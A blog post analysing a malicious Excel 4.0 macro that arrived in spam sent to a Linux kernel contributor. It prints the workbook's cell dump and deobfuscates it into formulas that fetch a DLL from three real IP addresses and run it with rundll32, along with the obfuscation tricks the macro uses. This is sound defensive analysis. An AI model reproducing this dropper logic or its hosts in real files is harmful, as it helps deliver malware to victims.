

+++
title = "Re: You should look at this"
date = 2021-03-22T00:22:34-04:00
description = "The tale of a malicious Excel macro."
[taxonomies]
tags = ["email", "malware"]
+++

## Background

Last spring I published [mipi-demo](https://github.com/hdl-util/mipi-demo), 
the culmination of my journey to stream video end-to-end from scratch on an FPGA.
It was one of my most challenging projects yet and I learned a lot from it.

Along the way I had the chance to contribute to the Linux kernel.
There's this [V4L2](https://en.wikipedia.org/wiki/Video4Linux) driver for the IMX219 camera module
that configures it over I2C.
While trying to understand the code I noticed that there
were two redundant register writes.
It wasn't a big deal but I submitted a patch to remove them.
Suffice it to say I am now a proud Linux contributor. :penguin:

## An email arrives...

Roughly a year has passed since I submitted that patch.
I had forgotten all about it until a few days ago when I received the following email:

```
From:counter4_dwi24hours@dwidayatravel.com
Subject:Re: [PATCH] media: i2c: imx219: remove redundant writes
Date:Tuesday, March 16, 2021 12:32
Size:225 KB

Hello,

You should look at this


Regards,


CONFIDENTIALITY NOTICE: The information contained herein is intended for the use of the individual or entity to which it is addressed and may contain information that is privileged, confidential and exempt from disclosure under applicable law. If the reader of this transmission is not the intended recipient or the employee or agent responsible for delivering the contents to the intended recipient, you are hereby notified that any dissemination, distribution or copying of this communication is strictly prohibited. If you have received this communication in error, please notify the sender immediately.

2307013695_03162021.zip
157 KB
```

Clearly this isn't an important email. But the subject made me think it might be.
Someone is scraping the kernel mailing list archives and emailing patch contributors en masse.
No doubt there's more junk mail headed my way! :mailbox:

What's interesting about this spam email is that it's also malicious.
The attachment is a ZIP archive containing an Excel document:



### :rotating_light: *Virus* alert[^3] :rotating_light:

Aside from misspelling button as *bytton* and the all around poor grammar,
an Excel document that asks you to enable editing is a sure sign of a macro attack.
Once enabled the macro will automatically run whatever the attacker intended.
It's just as bad as downloading a program from an unscrupulous website and trusting it,
but that may not be as obvious.

The last time I heard of an Excel macro attack was high school before everyone started using [Google Sheets](https://www.google.com/sheets/about/).
So what gives?

According to security researchers, these attacks are [on the rise again](https://www.csoonline.com/article/3597913/why-excel-4-0-macro-exploits-are-surging.html).
It's a smart attack vector; 76% of desktop computers run Windows[^1] and the majority have Excel installed in some form.
This particular variant uses XLM macros which are compatible with *any version of Excel*[^2].
VBA macros superseded them back in 1993 but they are supported for the sake of backwards compatibility.
Most macro attacks are done with VBA macros so analysis tends to target those instead.

These are the ideal conditions for an attacker: a niche but untapped technology that lets them stay one step ahead.
Microsoft recently announced that they are [building better protections](https://www.microsoft.com/security/blog/2021/03/03/xlm-amsi-new-runtime-defense-against-excel-4-0-macro-malware)
against malicious XLM macros. But of course, not everybody has the Office 365 variant.

[^3]: [Virus Alert by Weird Al Yankovic](https://www.youtube.com/watch?v=zvfD5rnkTws), YouTube

[^1]: [Desktop Operating System Market Share Worldwide](https://gs.statcounter.com/os-market-share/desktop/worldwide/#monthly-202012-202012-bar), *statcounter GlobalStats*, February 2021

[^2]: [Microsoft Excel > Macro programming > History](https://en.wikipedia.org/wiki/Microsoft_Excel#History), *Wikipedia*

## Analysis

Learning about this kind of attack was interesting, but I still had one burning question:
*what does this workbook actually do?* Finding the answers would take time.
I have no background in analyzing malicious code and this was a great opportunity to dive right in! :slightly_smiling_face:

### :detective: Detective work

Before examining the macro, I thought it might be interesting to look at various sources of metadata to get info on the creator.
Philippe Lagadec's [oletools](https://github.com/decalage2/oletools), a collection of tools written in Python for analyzing Microsoft office files, were exactly what I needed. Here are the file's properties:

```
> olemeta 2307013695_03162021.xls
Properties from the SummaryInformation stream:
+---------------------+------------------------------+
|Property             |Value                         |
+---------------------+------------------------------+
|codepage             |1251                          |
|author               |Rabota                        |
|last_saved_by        |Operator                      |
|create_time          |2015-06-05 18:19:34           |
|last_saved_time      |2021-03-16 10:08:12           |
|creating_application |Microsoft Excel               |
|security             |0                             |
+---------------------+------------------------------+
```

Rabota (работа in Cyrillic) is job/work in Slavic languages.
It's a safe bet that this file was created by someone in Eastern Europe or Russia.
Operator is probably the perpetrator sending out these emails.
The fact that it was originally created in 2015 is a bit odd though.
Why is it suddenly resurging after six years?
Rabota probably wrote the original attack and Operator purchased it recently. Or maybe it's only now making its way through the hacker forums, though this is all just speculation. :shrug:

#### Raw email (.eml)

Another thing to check was the raw .eml file from my email provider. The headers there might shed some more light on the sender:

```
...
X-Sieve: CMU Sieve 3.0
X-Spam-known-sender: no
X-Spam-sender-reputation: 500 (none)
X-Spam-score: 2.8
X-Spam-hits: DOS_OUTLOOK_TO_MX 1.449, FORGED_OUTLOOK_HTML 0.001,
  FORGED_OUTLOOK_TAGS 0.565, HTML_MESSAGE 0.001,
  HTML_MIME_NO_HTML_TAG 0.635, ME_SENDERREP_NEUTRAL 0.001,
  MIME_HTML_ONLY 0.1, MISSING_MID 0.14, RCVD_IN_DNSWL_NONE -0.0001,
  RCVD_IN_MSPIKE_H3 0.001, RCVD_IN_MSPIKE_WL 0.001, SPF_HELO_NONE 0.001,
  SPF_PASS -0.001, LANGUAGES en, BAYES_USED none, SA_VERSION 3.4.2
...
X-Mail-from: counter4_dwi24hours@dwidayatravel.com
...
Received-SPF: pass
    (dwidayatravel.com: Sender is authorized to use 'counter4_dwi24hours@dwidayatravel.com' in 'mfrom' identity (mechanism 'include:emailsrvr.com' matched))
    receiver=mx3.messagingengine.com;
    identity=mailfrom;
    envelope-from="counter4_dwi24hours@dwidayatravel.com";
    helo=smtp76.iad3b.emailsrvr.com;
    client-ip=146.20.161.76
...
MIME-Version: 1.0
X-Mailer: Microsoft Outlook 16.0
...
```

Sure enough there is some interesting information. The email claims to have been sent with Outlook 2016.
However, when you look at the spam hits, [SpamAssassin's](https://spamassassin.apache.org/) `FORGED_OUTLOOK_TAGS` suggests that this message has elements you can't normally create with Outlook.
So the attacker could be masquerading as an Outlook sender to bypass spam filters. :monocle_face:

#### JPEG

What pops up when you open the workbook turned out to be an image.
More precisely, a 1600x1600 JPEG with the [EXIF metadata](https://en.wikipedia.org/wiki/Exif) left intact.
I extracted it from the workbook using [Apache POI](https://poi.apache.org/) and ran [ImageMagick's identify](https://imagemagick.org/script/identify.php) to check the EXIF tags:

```
> identify -verbose excel.jpg
...
    exif:ColorSpace: 65535
    exif:DateTime: 2021:03:02 23:57:02
    exif:ExifOffset: 166
    exif:PixelXDimension: 1600
    exif:PixelYDimension: 1600
    exif:Software: Adobe Photoshop 22.0 (Windows)
    exif:thumbnail:Compression: 6
    exif:thumbnail:JPEGInterchangeFormat: 304
    exif:thumbnail:JPEGInterchangeFormatLength: 2778
    exif:thumbnail:ResolutionUnit: 2
    exif:thumbnail:XResolution: 72/1
    exif:thumbnail:YResolution: 72/1
...
```

This suggests it was made with [Adobe Photoshop](https://en.wikipedia.org/wiki/Adobe_Photoshop) around two weeks before the email was sent.
Photoshop 22.0 was [released in October 2020](https://helpx.adobe.com/photoshop/using/whats-new/2021.html) so that lines up.

#### ZIP

I was about to move on when it occurred to me that I had overlooked one last source of information: the metadata of the ZIP file itself! :exploding_head:
Maybe programs left a signature when compressing files. It could be a comment or something as subtle as the compression level.
Running [zipinfo](https://linux.die.net/man/1/zipinfo) gave me a bunch of data:

```
> zipinfo -v 2307013695_03162021.zip
...
  file system or operating system of origin:      MS-DOS, OS/2 or NT FAT
  version of encoding software:                   6.3
  minimum file system compatibility required:     MS-DOS, OS/2 or NT FAT
  minimum software version required to extract:   2.0
  compression method:                             deflated
  compression sub-type (deflation):               normal
  file security status:                           not encrypted
  extended local header:                          no
  file last modified on (DOS date/time):          2021 Mar 16 16:26:02
...
```

It's hard to tell what's relevant, but it seems like the zip file was created on Windows six minutes before the email was sent.
I'd guess that the attacker has a script for automating the process.

### The macro itself

With all the preliminary investigation out of the way, it was time to
dissect the macro. oletools confirmed my thinking:

```
> olevba 2307013695_03162021.xls
...
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|FORMULA.FILL        |May modify Excel 4 Macro formulas at runtime |
|          |                    |(XLM/XLF)                                    |
|Suspicious|EXEC                |May run an executable file or a system       |
|          |                    |command using Excel 4 Macros (XLM/XLF)       |
|Suspicious|REGISTER            |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```

There's definitely something strange going on here.
The macro is running system code with DLLs and/or EXEs.
It is also self-modifying to get around naive analysis techniques.

It was time to switch to a more flexible tool.
I had my Apache POI program from earlier so I [extended that](https://gist.github.com/sameer/882e04ecc45cfe3f4c5fd72386508805) to neatly print out all the relevant information.

<details><summary>Workbook breakdown (click to expand)</summary>

| Sheet | Address | Type | Value |
|--|--|--|--|
|sheet1|A1|BLANK|null|
|sheet1|AH87|STRING|"http://"|
|sheet1|AL99|STRING|"R"|
|sheet1|AL100|STRING|"L"|
|sheet1|AL101|STRING|"D"|
|sheet1|AL102|STRING|"o"|
|sheet1|AL103|STRING|"w"|
|sheet1|AL104|STRING|"n"|
|sheet1|AK105|STRING|"J"|
|sheet1|AL105|STRING|"l"|
|sheet1|AK106|STRING|"J"|
|sheet1|AL106|STRING|"o"|
|sheet1|AK107|STRING|"C"|
|sheet1|AL107|STRING|"a"|
|sheet1|AK108|STRING|"C"|
|sheet1|AL108|STRING|"d"|
|sheet1|AK109|STRING|"B"|
|sheet1|AL109|STRING|"T"|
|sheet1|AK110|STRING|"B"|
|sheet1|AL110|STRING|"o"|
|sheet1|AL111|STRING|"F"|
|sheet1|AK112|STRING|"HERTY"|
|sheet1|AL112|STRING|"i"|
|sheet1|AL113|STRING|"l"|
|sheet1|AL114|STRING|"e"|
|sheet1|AL115|STRING|"A"|
|sheet1|AK117|STRING|"M"|
|sheet1|AO262|FORMULA|NOW()&".dat"|
|sheet1|AO263|FORMULA|FORMULA.FILL("..\Kiod.hod",AP263)|
|sheet1|AO264|FORMULA|FORMULA.FILL(AL99&"undll32 ",AP264)|
|sheet1|AO265|FORMULA|FORMULA.FILL(","&AL101&AL113&AL113&AL99&AL114&"gisterServer",AP265)|
|sheet1|AO271|FORMULA|(failed to parse) ЛОЖЬ|
|sheet1|AO272|FORMULA|HERTY(0,AH87&Z400&AO262,"..\Kiod.hod",0,0)|
|sheet1|AO273|FORMULA|HERTY(0,AH87&Z401&AO262,"..\Kiod.hod1",0,0)|
|sheet1|AO274|FORMULA|HERTY(0,AH87&Z402&AO262,"..\Kiod.hod2",0,0)|
|sheet1|AO275|FORMULA|HERTY(0,AH87&Z403&AO262,"..\Kiod.hod3",0,0)|
|sheet1|AO276|FORMULA|HERTY(0,AH87&Z404&AO262,"..\Kiod.hod4",0,0)|
|sheet1|AO277|FORMULA|GOTO(sheet2!X212)|
|sheet1|AU281|FORMULA|RETURN()|
|sheet1|Z400|STRING|"188.127.235.244/"|
|sheet1|Z401|STRING|"193.38.54.244/"|
|sheet1|Z402|STRING|"185.82.217.213/"|
|sheet2|X213|FORMULA|COUNTBLANK(V201:V224)=COUNTBLANK(V201:V224)=EXEC(sheet1!AP264&sheet1!AP263&sheet1!AP265)=COUNTBLANK(V201:V224)=COUNTBLANK(V201:V224)|
|sheet2|X214|FORMULA|COUNTBLANK(V201:V224)=COUNTBLANK(V201:V224)=EXEC(sheet1!AP264&sheet1!AP263&"1"&sheet1!AP265)=COUNTBLANK(V201:V224)=COUNTBLANK(V201:V224)|
|sheet2|X215|FORMULA|COUNTBLANK(V201:V224)=COUNTBLANK(V201:V224)=EXEC(sheet1!AP264&sheet1!AP263&"2"&sheet1!AP265)=COUNTBLANK(V201:V224)=COUNTBLANK(V201:V224)|
|sheet2|X220|FORMULA|GOTO(sheet1!AU279)|

This workbook contains defined names: 
* _xlfn.COMBINA in sheet1: is a function
* _xlfn.CONCAT in sheet1: is a function
* _xlfn.TEXTJOIN in sheet1: is a function
* HERTY in sheet1: refers to null
* Consolidate_Area in sheet1: refers to sheet1!$AO$168

</details>

There aren't many online resources for what XLM macro functions do since they're so old.
Luckily, I came across the original macro help file from Excel 4.0[^4].
Armed with that I continued to evaluate the formula cells by hand.

[^4]: Microsoft Excel Macro Functions Help [in original .hlp](./Macrofun.hlp) or [in HTML](./Macrofun.html)

#### Current time

AO262 uses the [NOW](https://support.microsoft.com/en-us/office/now-function-3337fd29-145a-4347-b2e6-20c904739c46) function for getting the current date and time.
It's represented as the decimal number of days since 1 January 1900.

| Sheet | Address | Value | Evaluated |
|--|--|--|--|
|sheet1|AO262|NOW() &".dat"|44276.7967810764.dat|

#### :dart: Payload acquired

A0272 to A0277 use HERTY -- a custom function that downloads files by URL.
Replacing the cell references reveals those URLs:

| Sheet | Address | Simplified Value |
|--|--|--|
|sheet1|AO272|HERTY(0,"http://188.127.235.244/44276.7967810764.dat", "..\Kiod.hod", 0, 0)|
|sheet1|AO273|HERTY(0,"http://193.38.54.244/44276.7967810764.dat", "..\Kiod.hod1", 0, 0)|
|sheet1|AO274|HERTY(0,"http://185.82.217.213/44276.7967810764.dat", "..\Kiod.hod2", 0, 0)|
|sheet1|AO275|HERTY(0,"http://44276.7967810764.dat", "..\Kiod.hod3", 0, 0)|
|sheet1|AO276|HERTY(0,"http://44276.7967810764.dat", "..\Kiod.hod4", 0, 0)|

Only the first three are valid URLs.
I tried downloading the files through [Tor](https://en.wikipedia.org/wiki/Tor_%28anonymity_network%29)
but didn't have any luck.
The first and third returned 403: Forbidden.
The second refused connections.

This must be some kind of timed attack that cuts off a few days of sending the email.
That way, the attacker can hit some victims but avoid proper detection by malware analyzers.

#### Deobfuscation

AO263 through AO265 use the macro-only function FORMULA.FILL.
It is a niche Excel antipattern; regular functions only read values from other cells, but this one can write to a target cell.

| Sheet | Original Address | Value | Evaluated |
|--|--|--|--|--|
|sheet1|AO263|FORMULA.FILL("..\Kiod.hod", AP263)|..\Kiod.hod|
|sheet1|AO264|FORMULA.FILL(AL99 &"undll32 ", AP264)|Rundll32 |
|sheet1|AO265|FORMULA.FILL("," &AL101 &AL113 &AL113 &AL99 &AL114 &"gisterServer", AP265)|,DllRegisterServer|

This shed some light on the end goal. The payload is a [DLL](https://techterms.com/definition/dll) to be executed with
[rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).
These cells are obfuscated to avoid detection by heuristic virus scanners.
More complex scanners evaluating the worksheet in a sandbox might overlook this because of FORMULA.FILL.

#### :bomb: Running the Payload

X213 through X215 look painful but are just another case of obfuscation.

The chain functions delimited by equal signs will be called from right to left as long as function outputs are equal.
In other words, it is a shorthand for if statements with no else clause.

EXEC is an XLM macro function for starting another program in the background.

[COUNTBLANK]([COUNTBLANK](https://support.microsoft.com/en-us/office/countblank-function-6a92d772-675c-4bee-b346-24af6bd3ac22)), as the name suggests, counts the number of blank cells in a range.
So `COUNTBLANK(V201:V224)` equals 25 since all those cells are blank
and can be safely removed when simplifying things:

| Sheet | Address | Simplified Value | Evaluated |
|--|--|--|--|
|sheet2|X213|EXEC(sheet1!AP264 &sheet1!AP263 &sheet1!AP265)|EXEC("Rundll32 ..\Kiod.hod,DllRegisterServer")|
|sheet2|X214|EXEC(sheet1!AP264 &sheet1!AP263 &"1"&sheet1!AP265)|EXEC("Rundll32 ..\Kiod.hod1,DllRegisterServer")|
|sheet2|X215|EXEC(sheet1!AP264 &sheet1!AP263 &"2"&sheet1!AP265)|EXEC("Rundll32 ..\Kiod.hod2,DllRegisterServer")|

So one or more copies of the attacker's DLLs would run and the Excel worksheet would have served its purpose.

### Servers

Without the payload, the only clue I had left was the endpoints for downloading it.
I ran a [whois](https://en.wikipedia.org/wiki/WHOIS) query on all three:

```
> whois 188.127.235.244
netname:        DHUB-CUST
descr:          Digital Hub Customers
country:        RU

> whois 193.38.54.244
netname:        PQ-HOSTING-NL
country:        NL
org:            ORG-PHS10-RIPE

> whois 185.82.217.213
netname:        ITLDC1-SOF1
descr:          ITLDC EU2.SOF Datacenter Network
country:        BG
```

Three different hosting providers in three different countries.
I never expected that an attacker would build in redundancy!
Checking open ports with [nmap](https://en.wikipedia.org/wiki/Nmap) revealed that the Russian and Bulgarian servers had an HTTPS port open.
Both had the same expired [SSL certificate](https://www.cloudflare.com/learning/ssl/what-is-an-ssl-certificate/) for cdnmetrics.com.
The trail went cold from there.

## Debrief

Analyzing this Excel macro was a fun project overall, but the attacker's goal remains a mystery. Oddly enough I find myself hoping for more spam to come my way. I'm ready for round 2!
